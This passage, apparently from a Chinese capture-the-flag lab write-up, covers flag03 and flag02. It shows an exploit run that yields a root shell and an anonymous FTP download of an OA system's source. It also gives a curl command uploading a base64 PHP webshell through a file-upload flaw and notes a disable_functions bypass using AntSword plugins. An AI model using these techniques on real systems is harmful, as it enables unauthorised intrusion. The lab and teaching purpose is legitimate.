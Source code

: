 运行 exp 获取交互式 shell 查看 flag03：

```console
root@kali:~# proxychains4 -q python3 exp.py
[+] Opening connection to 172.28.23.33 on port 59696: Done
[*] Switching to interactive mode
$ whoami
root

$ cat /root/flag_RaYz1/f1ag03.txt
flag03: flag{6a326f94-6526-4586-8233-152d137281fd}
```

## flag02 | 新翔 OA

### FTP anonymous login

ftp 匿名登陆，获取 OA 源码。

```console
root@kali-server:~# ncftp 172.28.23.26 -P 21
NcFTP 3.2.7 (Jan 01, 2024) by Mike Gleason (http://www.NcFTP.com/contact/).
Connecting to 172.28.23.26...
(vsFTPd 3.0.3)
Logging in...
Login successful.
Logged in to 172.28.23.26.
ncftp / >get OASystem.zip
OASystem.zip:                     ETA:   0:00    7.19/  7.19 MB  118.23 kB/s =
OASystem.zip:                     ETA:   0:00    7.19/  7.19 MB   96.45 kB/s =
```

### File Upload

审计源码，存在文件上传漏洞。漏洞源码文件如下：

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/7216a718d7eeb779.png)

HTTP 数据包：

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/878df1b30a6ded6e.png)

curl 命令：

```
curl -X 'POST' --data-binary 'imgbase64=data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==' 'http://172.28.23.26/uploadbase64.php'
```

### PHP - disable_functions bypass

上传 webshell 后不能正常使用，存在 disable_functions。

> 注：因为 disable 的原因直接使用「哥斯拉」连接会 500，需要使用「蚁剑」连接使用插件 bypass。
